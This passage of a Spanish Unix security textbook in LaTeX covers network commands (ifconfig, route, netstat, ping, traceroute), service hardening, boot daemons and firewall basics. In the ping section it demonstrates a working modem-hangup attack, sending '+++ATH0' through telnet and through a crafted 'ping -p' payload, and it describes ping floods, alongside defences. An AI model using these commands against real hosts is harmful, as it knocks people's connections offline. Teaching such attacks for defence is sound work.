tipo de servicios son {\tt time}, {\tt echo} o {\tt chargen}. En este caso, el
valor de este campo ha de ser {\tt internal}.
\end{itemize}
De esta forma, si en {\tt /etc/inetd.conf} tenemos una l\'{\i}nea como
\begin{quote}
\begin{verbatim}
telnet  stream  tcp     nowait  root    /usr/sbin/in.telnetd
\end{verbatim}
\end{quote}
entonces {\tt inetd} sabe que cuando reciba una petici\'on al puerto {\tt 
telnet} ha de abrir un {\it socket} tipo {\tt stream} (el habitual para el
protocolo {\sc tcp}) y ejecutar {\tt fork()} y {\tt exec()} del programa\\
{\tt /usr/sbin/in.telnetd}, bajo la identidad de {\tt root}.
\section{Algunas \'ordenes importantes}
\subsection{La orden {\tt ifconfig}}
La orden {\tt ifconfig} se utiliza para configurar correctamente los interfaces 
de red de nuestro sistema Unix; habitualmente con {\tt ifconfig} se indican 
par\'ametros como la direcci\'on {\sc ip} de la m\'aquina, la m\'ascara de la 
red local o la direcci\'on de {\it broadcast}. Si como par\'ametros se recibe
\'unicamente un nombre de dispositivo, {\tt ifconfig} nos muestra su
configuraci\'on en este momento:
\tt
\begin{quote}
\begin{verbatim}
anita:/# ifconfig nei0
nei0: flags=863<UP,BROADCAST,NOTRAILERS,RUNNING,MULTICAST> mtu 1500
        inet 192.168.0.3 netmask ffffff00 broadcast 192.168.0.255
        ether 0:20:18:72:45:ad 
anita:/# 
\end{verbatim}
\end{quote}
\rm
Ya hemos dicho que aqu\'{\i} no vamos a hablar de la configuraci\'on de estos
dispositivos, sino de sus consideraciones de seguridad. Podemos utilizar 
{\tt ifconfig} para detectar un funcionamiento an\'omalo de la tarjeta de
red; este `funcionamiento an\'omalo' suele ser la causa (siempre en cuanto a
seguridad se trata) de uno de los tres siguientes problemas:
\begin{itemize}
\item Direcci\'on {\sc ip} incorrecta.\\
Es posible que alguien est\'e realizando un ataque de tipo {\it IP Spoofing}
utilizando nuestro sistema: si utilizamos la direcci\'on {\sc ip} de otro 
equipo, las peticiones que ir\'{\i}an a \'el van a llegar a nosotros\footnote{Si
el otro equipo no est\'a activo; si lo est\'a, ninguno funcionar\'a 
correctamente.}. Estamos suplantando su identidad, hecho que un atacante puede
aprovechar para capturar todo tipo de informaci\'on (desde claves hasta 
correo electr\'onico).
\item Direcci\'on {\sc mac} incorrecta.\\
Esto puede denotar un ataque similar al anterior, pero m\'as elaborado: estamos
suplantando la identidad de otro equipo no s\'olo a nivel de {\sc ip}, sino a
nivel de direcci\'on {\sc mac}. Cuando esto sucede, casi con toda seguridad
se acompa\~na de un {\it IP Spoof} para conseguir una suplantaci\'on que no sea
tan f\'acil de detectar como el {\it IP Spoof} a secas.
\item Tarjeta en modo promiscuo.\\
Alguien ha instalado un {\it sniffer} en nuestro sistema y ha puesto la
tarjeta de red en modo promiscuo, para capturar todas las tramas que \'esta
`ve'. Es un m\'etodo muy utilizado por atacantes que han conseguido privilegio 
de superusuario en la m\'aquina (es necesario ser {\it root} para situar a la
tarjeta en este modo de operaci\'on) y se est\'a dedicando a analizar el 
tr\'afico de la red en busca de {\it logins} y claves de usuarios de otros
equipos.
\end{itemize}
\subsection{La orden {\tt route}}
Este comando se utiliza para configurar las tablas de rutado del n\'ucleo de
nuestro sistema. Generalmente en todo equipo de una red local tenemos al menos
tres rutas: la de {\it loopback}, utilizando el dispositivo de bucle interno
({\tt lo, lo0\ldots}), la de red local ({\it localnet}), que utiliza la tarjeta 
de red para comunicarse con equipos dentro del mismo segmento de red, y una 
{\it default} que tambi\'en utiliza la tarjeta para enviar a un {\it router} o
{\it gateway} paquetes que no son para equipos de nuestro segmento. Si no se
especifica ning\'un par\'ametro, {\tt route} muestra la configuraci\'on actual 
de las tablas de rutado\footnote{En algunos Unix, esto se consigue con la
orden {\tt netstat -r}.}:
\tt
\begin{quote}
\begin{verbatim}
andercheran:~# route
Kernel routing table
Destination   Gateway          Genmask        Flags  MSS    Window  Use Iface
localnet      *                255.255.0.0    U      1500   0       16  eth0
loopback      *                255.0.0.0      U      3584   0       89  lo
default       atlas.cc.upv.es  *              UG     1500   0       66  eth0
andercheran:~# 
\end{verbatim}
\end{quote}
\rm
Si {\tt route} nos muestra una configuraci\'on sospechosa (esto es, las tablas
no son las que en el sistema hemos establecido como administradores, aunque
todo funcione correctamente) esto puede denotar un ataque de simulaci\'on: 
alguien ha desviado el tr\'afico por un equipo que se comporta de la misma
forma que se comportar\'{\i}a el original, pero que seguramente analiza toda
la informaci\'on que pasa por \'el. Hemos de recalcar que esto suele ser 
transparente al buen funcionamiento del equipo (no notamos ni p\'erdida de
paquetes, ni retardos excesivos, ni nada sospechoso), y que adem\'as el 
atacante puede modificar los ficheros de arranque del sistema para, en caso de
reinicio de la m\'aquina, volver a tener configuradas las rutas a su gusto;
estos ficheros suelen del tipo {\tt /etc/rc.d/rc.inet1} o {\tt 
/etc/rc?.d/S$\ast$inet}.\\
\\Tambi\'en es posible que alguien est\'e utilizando alg\'un elemento utilizado
en la conexi\'on entre nuestro sistema y otro (un {\it router}, una 
pasarela\ldots) para amenazar la integridad de nuestro equipo; si queremos 
comprobar el camino que siguen los paquetes desde que salen de la m\'aquina 
hasta que llegan al destino, podemos utilizar la orden
{\tt traceroute}. Sin embargo, este tipo de ataques es mucho m\'as dif\'{\i}cil
de detectar, y casi la \'unica herramienta asequible para evitarlos es la
criptograf\'{\i}a.
\subsection{La orden {\tt netstat}}
Esta orden se utiliza para visualizar el estado de diversas estructuras de datos
del sistema de red, desde las tablas de rutado hasta el estado de todas las
conexiones a y desde nuestra m\'aquina, pasando por las tablas {\sc arp}, en 
funci\'on de los par\'ametros que reciba.\\
\\En temas referentes a la seguridad, {\tt netstat} se suele utilizar, aparte de
para mostrar las tablas de rutado de ciertos sistemas (con la opci\'on {\tt -r},
como hemos visto antes), para mostrar los puertos abiertos que escuchan 
peticiones de red y para visualizar conexiones a nuestro equipo (o desde \'el)
que puedan salirse de lo habitual. Veamos un ejemplo de informaci\'on mostrada
por {\tt netstat}:
\tt
\begin{small}
\begin{quote}
\begin{verbatim}
anita:/# netstat -P tcp -f inet -a
TCP
   Local Address        Remote Address    Swind Send-Q Rwind Recv-Q  State
-------------------- -------------------- ----- ------ ----- ------ -------
      *.*                  *.*                0      0     0      0 IDLE
      *.sunrpc             *.*                0      0     0      0 LISTEN
      *.*                  *.*                0      0     0      0 IDLE
      *.32771              *.*                0      0     0      0 LISTEN
      *.ftp                *.*                0      0     0      0 LISTEN
      *.telnet             *.*                0      0     0      0 LISTEN
      *.finger             *.*                0      0     0      0 LISTEN
      *.dtspc              *.*                0      0     0      0 LISTEN
      *.lockd              *.*                0      0     0      0 LISTEN
      *.smtp               *.*                0      0     0      0 LISTEN
      *.8888               *.*                0      0     0      0 LISTEN
      *.32772              *.*                0      0     0      0 LISTEN
      *.32773              *.*                0      0     0      0 LISTEN
      *.printer            *.*                0      0     0      0 LISTEN
      *.listen             *.*                0      0     0      0 LISTEN
      *.32774              *.*                0      0     0      0 LISTEN
      *.*                  *.*                0      0     0      0 IDLE
      *.6000               *.*                0      0     0      0 LISTEN
      *.32775              *.*                0      0     0      0 LISTEN
localhost.32777      localhost.32775      32768      0 32768      0 ESTABLISHED
localhost.32775      localhost.32777      32768      0 32768      0 ESTABLISHED
localhost.32780      localhost.32779      32768      0 32768      0 ESTABLISHED
localhost.32779      localhost.32780      32768      0 32768      0 ESTABLISHED
localhost.32783      localhost.32775      32768      0 32768      0 ESTABLISHED
localhost.32775      localhost.32783      32768      0 32768      0 ESTABLISHED
localhost.32786      localhost.32785      32768      0 32768      0 ESTABLISHED
localhost.32785      localhost.32786      32768      0 32768      0 ESTABLISHED
localhost.32789      localhost.32775      32768      0 32768      0 ESTABLISHED
localhost.32775      localhost.32789      32768      0 32768      0 ESTABLISHED
localhost.32792      localhost.32791      32768      0 32768      0 ESTABLISHED
localhost.32791      localhost.32792      32768      0 32768      0 ESTABLISHED
localhost.32810      localhost.6000       32768      0 32768      0 ESTABLISHED
localhost.6000       localhost.32810      32768      0 32768      0 ESTABLISHED
anita.telnet         luisa.2039           16060      0 10136      0 ESTABLISHED
anita.telnet         bgates.microsoft.com.1068 15928 0 10136      0 ESTABLISHED
localhost.32879      localhost.32775      32768      0 32768      0 TIME_WAIT
      *.*                  *.*                0      0     0      0 IDLE
anita:/# 
\end{verbatim}
\end{quote}
\end{small}
\rm
Por un lado, en este caso vemos que hay bastantes puertos abiertos, esto es, 
escuchando
peticiones: todos los que presentan un estado {\sc listen}, como {\tt telnet},
{\tt finger} o {\tt smtp} (si es un servicio con nombre en {\tt /etc/services}
se imprimir\'a este nombre, y si no simplemente el n\'umero de puerto).
Cualquiera puede conectar a este servicio (como veremos en el siguiente punto)
y, si no lo evitamos mediante {\it TCP Wrappers}, utilizarlo para enviarle 
peticiones.\\
\\Aparte de estos puertos a la espera de conexiones, vemos otro gran n\'umero de
conexiones establecida entre nuestro sistema y otros (como antes hemos dicho,
desde nuestro equipo o hacia \'el); casi todas las establecidas (estado {\sc
established}) son de nuestra m\'aquina contra ella misma, lo que a priori no
implica consecuencias de seguridad. Otra de ellas es desde un equipo de la
red local contra nuestro sistema, lo que tambi\'en es bastante normal y no
debe hacernos sospechar nada\footnote{Seguramente, uno de nuestros usuarios
estar\'a trabajando desde ese ordenador, aunque tambi\'en podr\'{\i}a tratarse
de un atacante\ldots}; sin embargo, hay una conexi\'on que s\'{\i} puede 
indicar que alguien ha accedido a nuestro sistema de forma no autorizada: si
nos fijamos, alguien conecta por {\tt telnet} desde la m\'aquina {\tt 
bgates.microsoft.com}. Es raro que tengamos a un usuario all\'{\i}, por lo 
que deber\'{\i}amos monitorizar esta conexi\'on y las actividades que esta 
persona realice; es muy probable que se trate de alguien que ha aprovechado la
inseguridad de ciertos sistemas para utilizarlos como plataforma de ataque 
contra nuestros Unix.
\subsection{La orden {\tt ping}}
El comando {\tt ping} se utiliza generalmente para testear aspectos de la
red, como comprobar que un sistema est\'a encendido y conectado; esto se 
consigue enviando a dicha 
m\'aquina paquetes {\sc icmp} (de tipo {\sc echo$\_$request}), tramas que 
causar\'an que el n\'ucleo del sistema remoto responda con paquetes {\sc icmp},
pero esta vez de tipo {\sc echo$\_$response}. Al recibirlos, se asume que 
la m\'aquina est\'a encendida:
\begin{quote} 
\begin{verbatim} 
anita:~# ping luisa
luisa is alive
anita:~#
\end{verbatim} 
\end{quote} 
En otras variantes de Unix (el ejemplo anterior es sobre Solaris) la orden {\tt 
ping} produce un resultado con m\'as informaci\'on:
\begin{quote}
\begin{verbatim}
luisa:~# ping -c 1 anita
PING anita (192.168.0.3): 56 data bytes
64 bytes from 192.168.0.3: icmp_seq=0 ttl=255 time=0.2 ms

--- luisa ping statistics ---
1 packets transmitted, 1 packets received, 0% packet loss
round-trip min/avg/max = 0.2/0.2/0.2 ms
luisa:~#
\end{verbatim}
\end{quote}
Aunque un simple {\tt ping} resulta inofensivo en la mayor\'{\i}a de 
situaciones, existen casos en los que se puede utilizar como un arma -- 
efectiva -- para atacar sistemas; por ejemplo, uno de los ataques m\'as 
conocidos es el {\it Ping Flood}, consistente en saturar una l\'{\i}nea lenta 
con un n\'umero de paquetes {\sc icmp} suficientemente grande. Esta 
saturaci\'on causar\'a una degradaci\'on del servicio importante, incluso la
desconexi\'on del sistema si se ataca una l\'{\i}nea telef\'onica (un objetivo
muy habitual para los piratas). En este \'ultimo caso, el de conexiones 
telef\'onicas, otro ataque com\'un -- no directamente relacionado con {\tt
ping}, pero en el que se usa esta herramienta como base -- consiste en enviar
una trama `especial' a un {\it m\'odem}, oblig\'andole a finalizar la llamada:
los {\it m\'odems} conmutan a modo comando cuando reciben la orden {\tt `+++'}, 
y muchos de ellos lo hacen tambi\'en al recibir remotamente esta secuencia de 
control. 
As\'{\i}, podemos conectar a un puerto donde se ofrezca determinado servicio
(como {\sc ftp} o {\sc smtp}) en un {\it host} con un {\it m\'odem} de estas 
caracter\'{\i}sticas y colgar el {\it m\'odem} remoto sin levantarnos de la 
silla, simplemente enviando la cadena {\tt `+++'} seguida de una orden de 
colgado como {\tt `ATH0'}:
\begin{quote}
\begin{verbatim}
luisa:~# telnet XXX.XXX.X.XX 21
Trying XXX.XXX.X.XX...
Connected to XXX.XXX.X.XX.
Escape character is '^]'.
220 gema FTP server (Version wu-2.4.2-academ[BETA-15](1) Fri Oct 22 
00:38:20 CDT 1999) ready.
USER +++ATH0
^]
telnet> close
Connection closed.
luisa:~# telnet XXX.XXX.X.XX
Trying XXX.XXX.X.XX...
telnet: Unable to connect to remote host: Network is unreachable
luisa:~#
\end{verbatim}
\end{quote}
Bien pero, >d\'onde entra {\tt ping} en este ataque? Muy sencillo: al conectar
a un servicio para enviar la cadena de caracteres, lo habitual es que el sistema
remoto registre la conexi\'on, aunque luego su {\it m\'odem} cuelgue. En 
cambio, muy pocos sistemas registran en los {\it logs} un simple {\tt ping},
por lo que esta orden se convierte en un mecanismo que algunos piratas utilizan
para no dejar rastro de sus acciones; esto se consigue de una forma muy 
sencilla: en la utilidad {\tt ping} de la mayor\'{\i}a de Unices existe un
par\'ametro que permite especificar el contenido del paquete enviado (por 
ejemplo, {\tt `-p'} en Linux), por lo que simplemente hemos de insertar (en
hexadecimal) la cadena {\tt `+++ATH0'} en la trama que enviamos al sistema 
remoto:
\begin{quote}
\begin{verbatim}
luisa:~# ping -c 1 XXX.XXX.X.XX
PING XXX.XXX.X.XX (XXX.XXX.X.XX): 56 data bytes
64 bytes from XXX.XXX.X.XX: icmp_seq=0 ttl=255 time=0.2 ms

--- XXX.XXX.X.XX ping statistics ---
1 packets transmitted, 1 packets received, 0% packet loss
round-trip min/avg/max = 6.5/6.5/6.5 ms
luisa:~# ping -p 2b2b2b415448300d XXX.XXX.X.XX
PING XXX.XXX.X.XX (XXX.XXX.X.XX): 56 data bytes

^C
--- XXX.XXX.X.XX ping statistics ---
1 packets transmitted, 0 packets received, 100% packet loss
luisa:~# telnet XXX.XXX.X.XX
Trying XXX.XXX.X.XX...
telnet: Unable to connect to remote host: Network is unreachable
luisa:~#
\end{verbatim}
\end{quote}
Para evitar los problemas relacionados con los paquetes {\sc icmp} que sistemas
remotos puedan enviar a nuestra m\'aquina puede ser conveniente filtrar 
dicho protocolo mediante un cortafuegos (incluso situado en el propio equipo); 
si no tenemos esta posibilidad, al 
menos es interesante registrar las tramas de este tipo que llegan hasta nuestra
m\'aquina, con programas como {\tt icmpinfo} (si hacemos esto, hemos de tener
cuidado con las negaciones de servicio ocasionadas por una cantidad de {\it 
logs} excesiva en el disco duro).\\
\\Ah, si es nuestro {\it m\'odem} el que presenta el problema que acabamos de
comentar, podemos solucionarlo mediante la cadena de inicializaci\'on {\tt 
`s2=255'}.
\subsection{La orden {\tt traceroute}}
Esta orden se utiliza para imprimir la ruta que los paquetes siguen desde
nuestro sistema hasta otra m\'aquina; para ello utiliza el campo {\sc ttl}
({\it Time To Live}) del protocolo {\sc ip}, inicializ\'andolo con valores 
bajos y aument\'andolo conforme va recibiendo tramas {\sc icmp} de tipo
{\sc time$\_$exceeded}. La idea es sencilla: cada vez que un paquete pasa por
un {\it router} o una pasarela, esta se encarga de decrementar el campo {\sc
ttl} en una unidad; en el caso de que se alcance un valor 0, se devuelve un
paquete {\sc time$\_$exceeded} y se descarta la trama. As\'{\i}, {\tt 
traceroute} inicializa a 1 este campo, lo que ocasiona que el primer {\it 
router} encontrado ya devuelva el mensaje de error; al recibirlo, lo inicializa
a 2, y ahora es el segundo {\it router} el que descarta el paquete y env\'{\i}a
otro mensaje de error, y as\'{\i} sucesivamente. De esta forma se va 
construyendo la ruta hasta un determinado {\it host} remoto:
\begin{quote}
\begin{verbatim}
luisa:~# traceroute www.altavista.com
traceroute to altavista.com (204.152.190.70), 30 hops max, 40 byte packets
 1  annex4.net.upv.es (158.42.240.191)  156.251 ms  144.468 ms  139.855 ms
 2  zaurac-r.net.upv.es (158.42.240.250)  159.784 ms  149.734 ms  149.809 ms
 3  atlas.cc.upv.es (158.42.1.10)  149.881 ms  149.717 ms  139.853 ms
 4  A1-0-3.EB-Valencia1.red.rediris.es (130.206.211.185)  149.863 ms  
    150.088 ms  149.523 ms
 5  A0-1-2.EB-Madrid00.red.rediris.es (130.206.224.5)  189.749 ms  
    159.698 ms  180.138 ms
 6  A6-0-0-1.EB-Madrid0.red.rediris.es (130.206.224.74)  179.518 ms  
    159.678 ms  189.897 ms
 7  194.69.226.13 (194.69.226.13)  259.752 ms  249.664 ms  259.83 ms
 8  * * 195.219.101.1 (195.219.101.1)  290.772 ms
 9  195.219.96.34 (195.219.96.34)  1680.33 ms  1660.36 ms  1669.83 ms
10  * 195.66.225.76 (195.66.225.76)  1660.68 ms  1650.33 ms
11  core1-linx-oc3-1.lhr.above.net (216.200.254.81)  2009.88 ms  1970.32 ms *
12  iad-lhr-stm4.iad.above.net (216.200.254.77)  2050.68 ms * *
13  sjc-iad-oc12-2.sjc.above.net (216.200.0.22)  2440.89 ms  2170.29 ms  
    2579.81 ms
14  pao-sjc-oc12-2.pao.above.net (207.126.96.65)  2441.19 ms  2140.32 ms *
15  mibh-above-oc3.pao.mibh.net (216.200.0.10)  2200.57 ms * *
16  * * www.altavista.com (204.152.190.70)  1810.56 ms
luisa:~#
\end{verbatim}
\end{quote}
{\tt traceroute} se utiliza para realizar pruebas, medidas y administraci\'on
de una red; introduce mucha sobrecarga, lo que evidentemente puede acarrear
problemas de rendimiento, llegando incluso a negaciones de servicio por el
elevado tiempo de respuesta que el resto de aplicaciones de red pueden 
presentar. Adem\'as, se trata de un programa contenido en un fichero {\it
setuidado}, por lo que es interesante resetear el bit de {\it setuid} de 
forma que s\'olo el {\tt root} pueda ejecutar la orden: hemos de pensar que un 
usuario normal {\bf rara} vez tiene que realizar pruebas sobre la red, por lo
que el bit {\it setuid} de {\tt traceroute} no es m\'as que un posible 
problema para nuestra seguridad; aunque con {\tt ping} sucede lo mismo (es
un fichero {\it setuidado}), que un usuario necesite ejecutar {\tt traceroute}
es menos habitual que que necesite ejecutar {\tt ping} (de cualquier forma,
tambi\'en podr\'{\i}amos resetear el bit {\it setuid} de {\tt ping}).
\section{Servicios}
\label{serv}
Los servicios ofrecidos por una m\'aquina al resto suelen ser uno de los 
principales puntos de ataque contra esa m\'aquina; estos ataques pueden implicar
desde negaciones de servicio (DoS, {\it Denial of Service}) m\'as o menos 
graves hasta un acceso {\it root} remoto sin necesidad de ninguna clave.\\
\\Hay dos formas b\'asicas de ofrecer un servicio: o mediante {\tt inetd}, o
bien lanzando un demonio que se asocia y escucha en cierto puerto, generalmente
en el arranque del sistema. Por norma general se recomienda ofrecer el 
m\'{\i}nimo n\'umero de servicios; incluso si hay alg\'un servicio que no 
sabemos para qu\'e se utiliza, lo mejor para nuestra seguridad ser\'{\i}a dejar 
de ofrecerlo.\\
\\Dejar de ofrecer cierto servicio en m\'aquinas Unix es muy sencillo; no 
necesitamos {\it reiniciar el sistema para que los cambios tengan efecto} ni
nada por el estilo: con un simple editor de textos podemos limitar los servicios
ofrecidos. En el caso de servicios ofertados a trav\'es de {\tt inetd}, no 
tenemos m\'as que editar {\tt /etc/inetd.conf} y comentar las l\'{\i}neas
correspondientes a los servicios a cerrar (los comentarios en ficheros de
configuraci\'on de Unix suelen ser lineales, utilizando el s\'{\i}mbolo {\tt 
\#}). Despu\'es de comentar las l\'{\i}neas correspondientes hemos de reiniciar
el demonio {\tt inetd} envi\'andole la se\~nal {\sc sighup} (con \'ordenes como
{\tt kill}, {\tt pkill} o {\tt killall}). En el caso de demonios independientes
lanzados durante el arranque del sistema no tenemos m\'as que enviarles la
se\~nal {\sc sigterm} (por norma general, aunque en algunos casos quiz\'as es
necesaria {\sc sigkill}), y tambi\'en editar los ficheros que lanzen estos 
demonios y comentar las l\'{\i}neas encargadas de la inicializaci\'on, para que
no se vuelvan a lanzar la pr\'oxima vez que la m\'aquina arranque; generalmente 
se tratar\'a de archivos situados en {\tt /etc/rc.d/} o en {\tt /etc/rc?.d/}.\\
\\Veamos un ejemplo: imaginemos que en nuestro {\tt /etc/inetd.conf} tenemos
la l\'{\i}nea del servicio de {\tt telnet} que hemos mostrado anteriormente. En
este caso, si alguien ejecuta un {\tt telnet} a nuestro sistema, ver\'a algo 
parecido a esto:
\tt
\begin{quote}
\begin{verbatim}
rosita:~$ telnet anita
Trying 192.168.0.3...
Connected to anita.
Escape character is '^]'.

SunOS 5.7

login:
\end{verbatim}
\end{quote}
\rm
Si esta l\'{\i}nea de {\tt /etc/inetd.conf} la sustituimos por 
\tt
\begin{quote}
\begin{verbatim}
#telnet  stream  tcp     nowait  root    /usr/sbin/in.telnetd
\end{verbatim}
\end{quote}
\rm
y a continuaci\'on ejecutamos {\tt pkill -HUP inetd}, cuando alguien haga un
{\tt telnet} a nuestra m\'aquina ver\'a esto:
\tt
\begin{quote}
\begin{verbatim}
rosita:~$ telnet anita 
Trying 192.168.0.3...
telnet: Unable to connect to remote host: Connection refused
rosita:~$
\end{verbatim}
\end{quote}
\rm
Demonios t\'{\i}picos que se lanzan desde {\tt inetd} son {\tt in.telnetd}
(para recibir peticiones {\tt telnet}), {\tt in.ftpd} (para peticiones {\tt 
ftp}), {\tt in.talkd} (para peticiones {\tt talk}), {\tt in.fingerd} (para
{\tt finger} remoto) o {\tt in.r$\ast$}, para los servicios {\tt r-$\ast$} de
Unix {\sc bsd}. Demonios que se suelen lanzar en el arranque del sistema
son {\tt sendmail} (gesti\'on de correo electr\'onico), {\tt httpd} (servicio
{\tt http}), {\tt lpd} (demonio de impresi\'on), {\tt inetd} (recordemos que
es un demonio que tambi\'en se ha de iniciar en el arranque) o {\tt nfsd}
(para compartir sistemas de ficheros mediante {\sc nfs}); algunos de estos
conviene servirlos desde {\tt inetd} en lugar de como demonios independientes,
por motivos de seguridad que ya veremos al hablar de {\it TCP Wrappers}.\\
\\Hasta ahora hemos hablado de dos formas de ofrecer un servicio: o bien a
trav\'es de {\tt inetd}, o bien como demonio independiente lanzado al arrancar
el sistema; realmente, existe una tercera forma de ofrecer servicios, y es el
mecanismo RPC ({\it Remote Procedure Call}), original de Sun Microsystems pero
que en la actualidad est\'a implementado tambi\'en por OSF ({\it Open Software
Foundation}) en su DCE ({\it Distributed Computing Environment}) y por OMG
({\it Open Management Group}) en CORBA ({\it Common Object Request Broker 
Architecture}). La idea b\'asica del funcionamiento de RPC es sencilla: existe
un programa denominado {\tt portmap}, {\tt rpcbind}, {\tt rpc.portmap}\ldots
(su nombre depende del clon de Unix utilizado) que los servidores RPC utilizan
para registrarse. As\'{\i}, cuando un cliente desea utilizar esos servicios, 
en lugar de conectar a un puerto determinado donde se encuentre el servidor lo
hace al puerto del {\it portmapper}, que le indicar\'a la ubicaci\'on exacta
del servidor solicitado. Como estos mecanismos pueden llegar a ser muy complejos
no vamos a entrar en detalles de su seguridad; s\'olo decir que existe una
versi\'on de {\tt portmap} desarrollada por Wietse Venema que utiliza un
control de accesos similar a {\it TCP Wrappers}, lo que evidentemente va a ser
muy \'util para nuestra seguridad: s\'olo permitiremos conexiones RPC a los
sistemas deseados, denegando el acceso al resto. M\'as detalles de la seguridad
de RPC pueden encontrarse en el cap\'{\i}tulo 19 de \cite{kn:spa96}.\\
\\Cada puerto abierto en nuestro sistema representa una puerta de entrada al
mismo, por lo que como hemos dicho, hemos de minimizar su n\'umero ofreciendo
s\'olo los servicios estrictamente necesarios. Por ejemplo, si ofrecemos el
servicio {\tt telnet}, cualquier persona, desde cualquier parte del mundo, 
podr\'a acceder a nuestra m\'aquina simplemente conociendo (o adivinando) un
nombre de usuario y su clave; si ofrecemos el servicio {\tt netstat}, cualquiera
podr\'a consultar las conexiones activas de nuestra red simplemente tecleando
{\tt telnet maquina.dominio.com netstat}, desde cualquier ordenador conectado
a la red. Pero no s\'olo nos tenemos que limitar a cerrar servicios: hay algunos
que, como administradores de un sistema, no vamos a tener m\'as remedio que
ofrecer; en este caso es casi obligatorio restringir su disponibilidad a un
n\'umero de m\'aquinas determinado, como veremos al hablar de {\it TCP 
Wrappers}, y por supuesto utilizar la \'ultima versi\'on de los demonios
encargados de procesar las peticiones: un demonio no es m\'as que un programa,
y por supuesto es muy dif\'{\i}cil que est\'e completamente libre de errores. 
Un error en el demonio que utilicemos para procesar una petici\'on puede 
comprometer la seguridad de todo nuestro sistema, por lo que se recomienda
estar atento a listas de seguridad (como {\sc bugtraq} o {\sc cert}) en las que
se difundan problemas de seguridad y sus soluciones.

\cleardoublepage
%%% Parte de la Guia Completa a Linux ver 1.2.2
%%% de Jaime E. Gomez <jgomez@uniandes.edu.co>
%%% http://linuxcol.uniandes.edu.co/infolinux/docs/guia_linux/guia_linux.html
\porcion{Servicios en el Arranque}
\autor{\jeg}
\colaborador{\NC}
\revisor{\LLC}
\traductor{}

Todo GNU/Linux al iniciar lanza varios programas que proveen servicios
al sistema y a usuarios, conocidos como {\it daemons} o servidores
silenciosos, y mal traducidos se conocen como {\it demonios}. Estos 
programas de servicios son muy
livianos, pero es in�til e inseguro tenerlos corriendo si no se van 
a usar. En la siguiente pantalla se escogen cu�les van a ser
lanzados al inicio del sistema. Al colocar el rat�n sobre el nombre,
se abre una ventana de ayuda que describe qu� hace cada uno. Se van
a mencionar s�lo algunos de los m�s importantes a tener en cuenta.

\begin{itemize}
\item{{\sf autofs}: Controla el montaje autom�tico de dispositivos 
			extraibles como el CD-ROM y el disquete.}
\item{{\sf crond}: Ejecuta programas con una frecuencia o fechas programadas.}
\item{{\sf cupsd}: El programa que maneja las tareas de impresi�n \verb+CUPS+.}
\item{{\sf drakfont}: Mantiene actualizadas las fuentes para X-Window.}
\item{{\sf httpd}: Apache, servidor de p�ginas WWW y programas CGI.}
\item{{\sf kudzu}: Detecci�n y configuraci�n autom�tica de hardware.}
\item{{\sf linuxconf}: Realiza tareas de configuraci�n pendientes. }
\item{{\sf lpd}: El programa que maneja las tareas de impresi�n \verb+lpr+.}
\item{{\sf named}: El programa de servidor de nombres (DNS).}
\item{{\sf network}: Activa y desactiva las interfaces de red.}
\item{{\sf pcmcia}: Mantiene los dispositivos PCMCIA en los port�tiles.}
\item{{\sf postfix}: Agente de transporte de correo o MTA ({\it Mail Transport Agent}).}
\item{{\sf postgresql}: Servicio para la base de datos PostgreSQL.}
\item{{\sf proftp}: El servidor de FTP preferido por \distribucion .}
\item{{\sf smb}: Servicio de conexi�n a MS-Windows (Samba).}
\item{{\sf squid}: El muy conocido proxy-cache.}
\item{{\sf sound}: Activa y desactiva dispositivos de sonido.}
\item{{\sf sshd}: Acepta conexiones usando {\it Secure Shell}.}
\item{{\sf syslog}: Sistema para mantener bit�coras.}
\item{{\sf usb}: Activa y desactiva dispositivos usb.}
\item{{\sf xfs}: Servidor de fuentes para X-Window.}
\item{{\sf xinet}: Activa otros demonios y servicios como rsh, rlogin, etc.}
\end{itemize}


\cleardoublepage
\chapter{Cortafuegos: Conceptos te\'oricos}
\section{Introducci\'on}
Seg\'un \cite{kn:firefaq}, un {\it firewall} o cortafuegos es un sistema o 
grupo de sistemas que hace cumplir una pol\'{\i}tica de control de acceso
entre dos redes. De una forma m\'as clara, podemos definir un cortafuegos como 
cualquier sistema (desde un simple {\it router} hasta varias redes en serie) 
utilizado para separar -- en cuanto a seguridad se refiere --
una m\'aquina o subred del resto, protegi\'endola as\'{\i} de servicios y 
protocolos que desde el exterior puedan suponer una amenaza a la seguridad. El
espacio protegido, denominado {\bf per\'{\i}metro de seguridad}, suele ser 
propiedad de la misma organizaci\'on, y la protecci\'on se realiza contra una 
red externa, no confiable, llamada {\bf zona de riesgo}.\\
\\Evidentemente la forma de aislamiento m\'as efectiva para cualquier 
pol\'{\i}tica de seguridad consiste en el aislamiento f\'{\i}sico, es decir, no
tener conectada la m\'aquina o la subred a otros equipos o a Internet (figura
\ref{lanwan} (a)). Sin embargo, en la mayor\'{\i}a de organizaciones --
especialmente en las de I+D -- los usuarios
necesitan compartir informaci\'on con otras personas situadas en muchas 
ocasiones a miles de kil\'ometros de distancia, con lo que no es posible un 
aislamiento total. El punto opuesto consistir\'{\i}a en una conectividad 
completa con la red (figura \ref{lanwan} (b)), lo que desde el punto de vista 
de la seguridad es muy
problem\'atico: cualquiera, desde cualquier parte del mundo, puede 
potencialmente tener acceso a nuestros recursos. Un t\'ermino medio entre ambas 
aproximaciones consiste en implementar cierta separaci\'on l\'ogica mediante un 
cortafuegos (figura \ref{lanwan} (c)).\\
\begin{figure}
\begin{center}

\includegraphics[width=\textwidth]{fw.png}
\caption{(a) Aislamiento. (b) Conexi\'on total. (c) {\it Firewall} entre la
zona de riesgo y el per\'{\i}metro de seguridad.}
\label{lanwan}
\end{center}
\end{figure}
\\Antes de hablar de cortafuegos es casi obligatorio dar una serie
de definiciones de partes o caracter\'{\i}sticas de funcionamiento de un {\it
firewall}; por m\'aquina o {\it host} {\bf basti\'on} (tambi\'en se denominan
{\bf gates}) se conoce a un sistema especialmente asegurado, pero en principio
vulnerable a todo tipo de ataques por estar abierto
a Internet, que tiene como funci\'on ser el punto de contacto de los usuarios
de la red interna de una organizaci\'on con otro tipo de redes. El {\it host}
basti\'on filtra tr\'afico de entrada y salida, y tambi\'en esconde la 
configuraci\'on de la red hacia fuera.\\
\\Por {\bf filtrado de paquetes} entendemos la acci\'on de denegar o permitir
